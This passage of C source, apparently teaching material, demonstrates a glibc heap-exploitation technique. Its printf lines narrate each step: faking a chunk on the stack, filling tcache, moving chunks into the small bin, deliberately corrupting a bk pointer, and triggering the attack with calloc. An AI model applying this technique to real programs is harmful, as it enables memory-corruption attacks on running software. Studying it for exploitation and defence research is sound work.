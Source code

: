 ```c
    // stack_var emulate the fake_chunk we want to alloc to
    printf("Stack_var emulates the fake chunk we want to alloc to.\n\n");
    printf("First let's write a writeable address to fake_chunk->bk to bypass bck->fd = bin in glibc. Here we choose the address of stack_var[2] as the fake bk. Later we can see *(fake_chunk->bk + 0x10) which is stack_var[4] will be a libc addr after attack.\n\n");

    stack_var[3] = (unsigned long)(&stack_var[2]);

    printf("You can see the value of fake_chunk->bk is:%p\n\n",(void*)stack_var[3]);
    printf("Also, let's see the initial value of stack_var[4]:%p\n\n",(void*)stack_var[4]);
    printf("Now we alloc 9 chunks with malloc.\n\n");

    //now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }

    //put 7 chunks into tcache
    printf("Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }

    printf("As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");

    //last tcache bin
    free(chunk_lis[1]);
    //now they are put into unsorted bin
    free(chunk_lis[0]);
    free(chunk_lis[2]);

    //convert into small bin
    printf("Now we alloc a chunk larger than 0x90 to put chunk0 and chunk2 into small bin.\n\n");

    malloc(0xa0);// size > 0x90

    //now 5 tcache bins
    printf("Then we malloc two chunks to spare space for small bins. After that, we now have 5 tcache bins and 2 small bins\n\n");

    malloc(0x90);
    malloc(0x90);

    printf("Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);

    //change victim->bck
    /*VULNERABILITY*/
    chunk_lis[2][1] = (unsigned long)stack_var;
    /*VULNERABILITY*/

    //trigger the attack
    printf("Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");

    calloc(1,0x90);

```